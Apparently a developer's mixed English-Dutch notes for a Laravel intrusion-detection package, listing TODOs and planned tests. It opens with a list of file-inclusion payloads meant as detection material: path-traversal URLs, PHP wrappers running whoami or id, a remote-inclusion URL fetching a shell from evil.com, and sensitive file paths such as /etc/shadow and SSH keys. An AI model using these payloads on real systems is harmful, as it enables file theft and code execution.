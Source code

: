 normalize xss settings
SQLi

LFI
http://ex.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://ex.com/index.php?page=..///////..////..//////etc/passwd
http://ex.com/index.php?page=….//….//….//….//etc/passwd
page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://ex.com/index.php?page=../../../../[…]../../../../../etc/passwd
zip://shell.jpg%23
? page = .. / .. / .. / .. / .. / .. / etc / passwd

??
SSH
/var/lib/username/.ssh/id_rsa
/home/username/.ssh/id_rsa

Apache
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/etc/apache2/htpasswd
/etc/apache2/.htpasswd
/etc/apache/.htpasswd
/etc/apache2/apache2.conf

php://filter/convert.base64-encode/resource=

file=expect://whoami

php://input&cmd=whoami

CMS
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php

/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resour

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW

http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls



# Documentation
1 rename checkers to tripwires
2 refactor configs now we have objects

# Unit test cases
add missing tests for checkers

test ignore urls
test ignore ips
test all checkers for all responses? => data provider , dan moeten eerst de triggers werken
test training mode = no block, record
test honeypots


# TODO
- how to disable middleware on certain routes (ie large request)
- how to enable ray buggregator in testbench

## encryption
encryption is done in consumer derived model, which must somehow override findByIp (>where encrypted()


anonymizer, extend model, prevent callable in other namespace? in base class/ trait anonymizabletrait



Whitelist ip when specced this ip will not be checked for rules. Idea: have whitelist for allowing entry of the system, managable by the database?
or do this with a perblock in the _blocks ie: persistent block

# How to summarize logs to a block / how to make teh block depended on the violations
Moet ik violations bij elkaar optellen om te punishen (bv xss + sql wel), maar bv sql en swear niet.
Hoe spec ik dat dan in de config de score to trigger
When I know how, I could spec the result
Specify type of block view/json:  violation is anders dan login throttle
- more details in the email ? (url / type ? (need loggable>block)), what triggered it ?

# Unit tests



# Extended features
Geofencing

PSALM
PINT


# EXTEND
file checker : upload checker (laravelvalidation/upload middleware) +certain file types / sizes
extend rules: hacker polyglots and examples

## controllers
### get log/block indexed search on ip:
/index?search=ip ?
### get log/block indexed search on userid-type:
/ index?userid=1&usertype='xxxxx'

## Geofencing
fix geo fencing, need working api key to ip lookup stuff

# Management:
response wrapper ?
